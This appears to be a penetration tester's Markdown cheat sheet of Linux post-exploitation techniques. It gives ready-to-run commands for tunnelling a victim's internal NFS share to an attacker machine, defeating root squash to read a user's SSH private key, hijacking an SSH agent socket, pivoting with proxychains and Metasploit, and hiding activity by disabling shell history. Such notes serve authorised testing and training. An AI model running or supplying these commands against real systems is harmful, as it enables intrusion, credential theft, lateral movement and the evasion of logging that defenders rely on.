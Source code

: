 # Linux Post Methods

## NFS Proxy Mount

tags: nfs, proxy, proxychains, mount, reverse tunnle, ssh

### Mount internal NFS share through pivot

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.

### Rootsquash / Squashfs Bypass

Some versions of NFS can be configured so that even after a proxy mount, as the root user on the attacking system, not all files can be accessed. This is due to a root squash. One way to bypass this protection is to create a local user with a matching `uid`. 

For example, after mounting the `nfs:/home` directory locally, trying to reach the user folder for `jane` as the local root user does not work.

On the victim system, run:

`id -u jane`

Collect the `uid` of jane. On the attacking system, run:

```
useradd --uid 3755
su jane
cat /mnt/jane/.ssh/id_rsa
```

## Pivoting Methods

### Local Port Forwarding
* `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

### Remote Port Forwarding
* `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`

### Dynamic Port Forwarding
* `ssh -D <local proxy port> -p <remote port> <target>`

### Socket Hijack

From: https://twitter.com/REPTILEHAUS/status/1347103391961505792

```
root@bastation: $ find /tmp/ssh-* -type s
/tmp/ssh-srQ6Q5UpOL/agent.1460

root@bastation: $ SSH_AUTH_SOCK=/tmp/ssh-srQ6Q5UpOL/agent.1460 ssh user@internal.company.tld

user@internal: $ hostname -f
internal.company.tld
```

### Proxychains
* First create a reverse tunnel from victim to attacker
    * `ssh -f -N -R 2222:127.0.0.1:22 root@208.68.234.100`
* Create dynamic application-level port forwarding on `8080`
    * `ssh -f -N -D 127.0.0.1:8080 -p 2222 hax0r@127.0.0.1`
* Configure proxychains to use port `8080` on attacking machine since the SSH
    process listening on that port will act as a SOCKS server
    * `proxychains nmap --top-ports=20 -sT -Pn 172.16.40.0/24`

### metasploit
* Add route to session
    * `route add 192.168.50.0 255.255.255.0 1`
* Setup proxy
    * `use auxiliary/server/socks4a`
    * `run`
* Select module (must be proxy aware)
    * `use auxiliary/scanner/ssh/ssh_login`
    * `set Proxies socks4:127.0.0.1:1050`

## THC

Nabbed from [The Hackers Choice](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

* Hide Commands

```
$ export HISTFILE=/dev/null
```

* Commit Suicide 

```
#alias exit='kill -9 $$'```
```

* Commands starting with a space will not get logged to history

```
$  id
```

* Almost invisible SSH

```
$ ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
```